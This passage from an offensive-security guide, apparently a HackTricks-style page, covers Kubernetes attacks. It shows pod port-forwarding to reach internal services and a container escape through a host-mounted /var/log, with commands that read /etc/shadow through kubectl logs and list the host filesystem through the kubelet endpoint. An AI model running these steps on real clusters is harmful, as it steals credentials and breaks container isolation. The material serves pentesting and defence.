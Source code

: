 This permission allows to **forward one local port to one port in the specified pod**. This is meant to be able to debug applications running inside a pod easily, but an attacker might abuse it to get access to interesting (like DBs) or vulnerable applications (webs?) inside a pod:

```
kubectl port-forward pod/mypod 5000:5000
```

### Hosts Writable /var/log/ Escape

As [**indicated in this research**](https://jackleadford.github.io/containers/2020/03/06/pvpost.html), if you can access or create a pod with the **hosts `/var/log/` directory mounted** on it, you can **escape from the container**.\
This is basically because the when the **Kube-API tries to get the logs** of a container (using `kubectl logs <pod>`), it **requests the `0.log`** file of the pod using the `/logs/` endpoint of the **Kubelet** service.\
The Kubelet service exposes the `/logs/` endpoint which is just basically **exposing the `/var/log` filesystem of the container**.

Therefore, an attacker with **access to write in the /var/log/ folder** of the container could abuse this behaviours in 2 ways:

* Modifying the `0.log` file of its container (usually located in `/var/logs/pods/namespace_pod_uid/container/0.log`) to be a **symlink pointing to `/etc/shadow`** for example. Then, you will be able to exfiltrate hosts shadow file doing:

```bash
kubectl logs escaper
failed to get parse function: unsupported log format: "root::::::::\n"
kubectl logs escaper --tail=2
failed to get parse function: unsupported log format: "systemd-resolve:*:::::::\n"
# Keep incrementing tail to exfiltrate the whole file
```

* If the attacker controls any principal with the **permissions to read `nodes/log`**, he can just create a **symlink** in `/host-mounted/var/log/sym` to `/` and when **accessing `https://<gateway>:10250/logs/sym/` he will lists the hosts root** filesystem (changing the symlink can provide access to files).

```bash
curl -k -H 'Authorization: Bearer eyJhbGciOiJSUzI1NiIsImtpZCI6Im[...]' 'https://172.17.0.1:10250/logs/sym/'
<a href="bin">bin</a>
<a href="data/">data/</a>
<a href="dev/">dev/</a>
<a href="etc/">etc/</a>
<a href="home/">home/</a>
<a href="init">init</a>
<a href="lib">lib</a>
[...]
```

**A laboratory and automated exploit can be found in** [**https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts**](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts)

#### Bypassing readOnly protection <a href="#bypassing-hostpath-readonly-protection" id="bypassing-hostpath-readonly-protection"></a>
